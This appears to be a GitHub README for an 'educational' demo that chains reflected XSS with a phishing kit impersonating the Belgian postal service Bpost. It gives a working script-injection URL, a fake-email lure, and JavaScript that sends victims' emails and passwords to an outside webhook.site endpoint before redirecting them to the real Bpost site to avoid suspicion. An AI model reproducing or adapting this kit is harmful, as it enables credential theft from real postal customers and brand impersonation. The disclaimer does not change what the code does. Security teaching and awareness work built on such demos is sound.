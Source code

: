 
# XSS Bpost Demo 🚨

This project demonstrates a realistic Reflected XSS (Cross-Site Scripting) attack in a simulated delivery tracking scenario, mimicking the Belgian postal service Bpost. It includes a phishing login page, a fake email, and a redirection to the real Bpost site after credential capture.

---

## 📁 Project Structure

```
xss-bpost-demo/
│
├── index.html           # Main vulnerable tracking page (XSS injection via `trackid` parameter)
├── fake-login.html      # Fake login page (captures credentials and sends them to webhook)
├── fake-email.html      # Phishing email page (HTML standalone preview)
└── README.md            # This documentation file
```

---

## 🎯 Objective

Demonstrate a full XSS chain including:

1. **Reflected XSS** injection via URL parameter.
2. Auto-redirection to a **fake login page**.
3. Capture of **user credentials** to a webhook (e.g. webhook.site).
4. Redirection to the **official Bpost website** to maintain user trust.

---

## 🧪 Reflected XSS Injection

Open in browser (local server must be running):

```
http://localhost:8000/index.html?trackid=<script>window.location.href='fake-login.html'</script>
```

This injects a script that redirects the user to the phishing login page.

---

## 🕵️‍♀️ Fake Login Page

`fake-login.html` contains a simple login form that:

- Accepts `email` and `password`
- Sends credentials to a webhook endpoint (e.g., [Webhook.site](https://webhook.site))
- Redirects the user to the real Bpost site (`https://track.bpost.cloud/btr/web/#/search`) after login

The script used in `fake-login.html`:

```javascript
const form = document.querySelector("form");
form.addEventListener("submit", (e) => {
    e.preventDefault();
    const email = document.getElementById("email").value;
    const password = document.getElementById("password").value;

    fetch("[https://webhook.site/](https://webhook.site/b729d597-59d8-44da-948a-383d7d9a90bb)l", {
        method: "POST",
        body: JSON.stringify({ email, password }),
        headers: { "Content-Type": "application/json" }
    }).then(() => {
        window.location.href = "https://track.bpost.cloud/btr/web/#/search";
    });
});
```

> Replace the webhook URL with your own unique one from webhook.site.

---

## ✉️ Fake Email Template

`fake-email.html` simulates a phishing email stating:

- The delivery failed
- The user must click a button to reschedule

Button link leads to the vulnerable `index.html` page with XSS payload injected.

---

## 📸 Screenshots

- Fake email preview (HTML)
- Phishing login interface (mimics Bpost)
- Webhook request showing credentials captured
- Optional: Chrome DevTools with injected URL

---

## ⚠️ Legal Disclaimer

Made by Jessica (2025)
This project is for educational and ethical hacking demonstrations **only**.
Do not deploy this code against real services or users. Always have authorization.

---

Made by Jessica (2025)
